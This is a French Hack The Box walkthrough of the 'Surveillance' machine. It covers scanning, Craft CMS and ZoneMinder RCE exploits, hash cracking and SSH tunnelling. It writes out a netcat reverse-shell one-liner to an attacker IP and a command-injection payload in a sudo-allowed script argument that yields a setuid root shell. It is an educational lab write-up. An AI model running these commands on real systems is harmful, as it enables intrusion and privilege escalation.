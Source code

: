 ```yaml
---
date: 2024-04-19T15:48:38-05:00
# description: ""
image: "/images/HTB-Surveillance/Surveillance.png"
showTableOfContents: true
tags: ["HackTheBox"]
categories: ["Writeups"]
title: "HTB: Surveillance"
type: "post"
---
```


* Platforme: Hack The Box
* Lien: [Surveillance](https://app.hackthebox.com/machines/Surveillance)
* Niveau: Moyen
* OS: Linux
---

Surveillance débute par la découverte d'une application web fonctionnant sur le port 80, où nous identifions la version du logiciel utilisé et utilisons le `CVE-2023-41892` pour obtenir un accès initial. Grâce à une exploration plus poussée, nous trouvons une sauvegarde de base de données qui révèle le nom et le hash du mot de passe d'un utilisateur administrateur. Ces informations sont utilisées pour nous connecter au système par SSH, et nous découvrons un service en interne. En utilisant la redirection de port, nous accédons au service et nous tirons parti du `CVE-2023-26035` pour l'exploiter. Finalement, en exploitant les vulnérabilités de certains scripts, nous élevons nos privilèges et obtenons l'accès au compte root.

Adresse IP cible - `10.10.11.245`

## Scanning 

```
nmap -sC -sV -oA nmap/Surveillance 10.10.11.245
```

**Résultats**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-14 12:04 CDT
Nmap scan report for 10.10.11.245
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.52 seconds
```

Le scan révèle deux ports ouverts, 22 (SSH) et 80 (HTTP - nginx), nous sommes également redirigés vers `http://surveillance.htb/`.

```
sudo echo "10.10.11.245 surveillance.htb" | sudo tee -a /etc/hosts
```

## Enumération

Le site web présente une compagnie offrant des services de sécurité, mais il n'offre aucune caractéristique exploitable.

![Surveillance website](/images/HTB-Surveillance/surveillance-website.png)

Avec `Wappalyzer` nous constatons que le site utilise `Craft CMS`. En parcourant le code source, nous trouvons que la version utilisée est `4.4.14`.

![Wappalyzer results](/images/HTB-Surveillance/Wappalyzer.png)

![Craft CMS version](/images/HTB-Surveillance/Craft-CMS-version.png)

La recherche de vulnérabilités conduit au [CVE-2023-41892](https://www.exploit-db.com/exploits/51918) qui permet l'exécution de code à distance sans authentification. Un PoC est disponible [ici](https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce).

> D'après mon expérience, le PoC ci-dessus ne fonctionne pas toujours correctement, si cela vous arrive, utilisez [celui-ci](https://github.com/Faelian/CraftCMS_CVE-2023-41892).

## Accès Initial

Après avoir exécuté le script, nous obtenons un shell.

![Surveillance initial foothold](/images/HTB-Surveillance/foothold.png)

Il semble que nous ne soyons pas en mesure de l'améliorer, alors redirigeons-le vers un écouteur netcat.

```
nc -lvnp 4444
```

Exécutez la commande ci-dessous sur la cible (copiez-la entièrement et collez-la dans votre terminal)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.4 4444 >/tmp/f 
/usr/bin/script -qc /bin/bash /dev/null
```

![Reverse shell transfer](/images/HTB-Surveillance/revshell.png)

Nous sommes maintenant en mesure d'améliorer le shell que nous obtenons par l'intermédiaire de notre listener.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
stty rows 38 columns 116
```

![New shell](/images/HTB-Surveillance/new-shell.png)

Pour l'énumération du système, nous utilisons `linpeas` et notons que `mysql` est en cours d'exécution sur la cible.

![MySQL service](/images/HTB-Surveillance/mysql.png)

![MySQL version](/images/HTB-Surveillance/mysql1.png)

Nous trouvons également des identifiants pour MySQL.

![MySQL credentials](/images/HTB-Surveillance/Craft-db-pwd.png)

> Après s'être connecté à MySQL, nous trouvons une base de données `craftdb` et une table nommée `users`, mais nous ne pouvons pas déchiffrer les hashs qui s'y trouvent.

Une sauvegarde de la base de données se trouve sur la cible dans `/var/www/html/craft/storage/backups/`.

![FIles found by linpeas](/images/HTB-Surveillance/files.png)

L'archive est exfiltrée vers notre système, après l'avoir décompressée, nous trouvons un hash pour l'utilisateur `Matthew` qui est un administrateur.

> Si vous lancez `cat /etc/passwd` sur la cible, vous trouverez effectivement l'utilisateur `matthew`.

![matthew user](/images/HTB-Surveillance/matthew.png)

En utilisant [CrackStation](https://crackstation.net/) nous confirmons qu'il s'agit d'un hash sha256 et nous réussissons à le craquer pour récupérer le mot de passe `starcraft122490`.

![matthew user password](/images/HTB-Surveillance/matthew-pwd.png)

Avec les identifiants `matthew:starcraft122490` nous nous connectons via SSH et obtenons le drapeau `user.txt`.

![user flag](/images/HTB-Surveillance/user-flag.png)

### Redirection de port

En vérifiant les services fonctionnant sur la cible avec `ss -lntp`, nous trouvons un service sur le port `8080`.

![ss command](/images/HTB-Surveillance/ss-cmd.png)

La redirection de port est ensuite utilisée pour accéder au service via un tunnel SSH.

```
ssh -f -N -L 5555:127.0.0.1:8080 matthew@surveillance.htb
```

> La commande ci-dessus établit un tunnel entre notre machine et le serveur `surveillance.htb`.

Nous accédons ensuite au service en visitant `localhost:5555`, et trouvons une instance `ZoneMinder`. 

![ZoneMinder instance](/images/HTB-Surveillance/ZoneMinder.png)

En recherchant `zoneminder exploit` nous trouvons un [PoC](https://github.com/rvizx/CVE-2023-26035) pour le [CVE-2023-26035](https://www.exploit-db.com/exploits/51902) qui conduit également à un RCE non authentifié.

```
git clone https://github.com/rvizx/CVE-2023-26035
cd CVE-2023-26035
python3 exploit.py -t <target_url> -ip <attacker-ip> -p <port>
```
![ZoneMinder RCE exploit](/images/HTB-Surveillance/ZM-exploit.png)

Sur notre listener, nous obtenons un autre shell sous le nom de `zoneminder`.

![ZoneMinder RCE shell](/images/HTB-Surveillance/ZM-shell.png)

## Elévation de Privilèges

En lançant `sudo -l`, nous constatons que l'utilisateur `zoneminder` peut exécuter tout ce qui correspond au motif `/usr/bin/zm[a-zA-Z]*.pl` avec les privilèges `sudo` sans avoir à fournir de mot de passe. De plus, n'importe quelle option peut être ajoutée aux commandes du fait du caractère générique `*`.

![sudo -l command](/images/HTB-Surveillance/sudo-l.png)

Le script `zmupdate.pl` accepte des arguments tels que `--version` et `--user`, il peut donc potentiellement exécuter un fichier pour nous.

![zmupdate script](/images/HTB-Surveillance/zmupdate.png)

```
echo 'cp /bin/bash /tmp/bash;chmod 4755 /tmp/bash' > /tmp/exploit.sh
chmod +x /tmp/exploit.sh
```

> Lorsque le script `exploit.sh` sera exécuté, il créera une copie du binaire `bash` dans `/tmp` et définira ses permissions pour qu'il puisse être exécuté avec des privilèges élevés (setuid).

Avec la substitution de commande, nous exécutons notre script via le script `zmupdate.pl`.

```
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/exploit.sh)'
```

> Lorsque la commande est exécutée, tout ce qui est inclus dans `$(...)` est traité comme une commande à exécuter par l'interpréteur de commandes, et le résultat de cette commande remplace la substitution de commande. Dans ce cas, `/tmp/exploit.sh` est un script qui crée un binaire setuid pour `/bin/bash` dans le répertoire `/tmp`.

Après avoir démarré une nouvelle instance de l'interpréteur de commandes bash, nous accédons à l'utilisateur root.

```
/tmp/bash -p
```
![root flag](/images/HTB-Surveillance/root-flag.png)

Ce défi était assez simple et montrait comment la redirection de port peut être utilisé à des fins d'exploitation. Si vous souhaitez approfondir la question du tunneling, Hack The Box propose un excellent module sur le sujet [ici](https://academy.hackthebox.com/module/details/158). Si vous souhaitez expérimenter différents outils de tunneling, vous pouvez consulter [awesome-tunneling](https://github.com/anderspitman/awesome-tunneling).

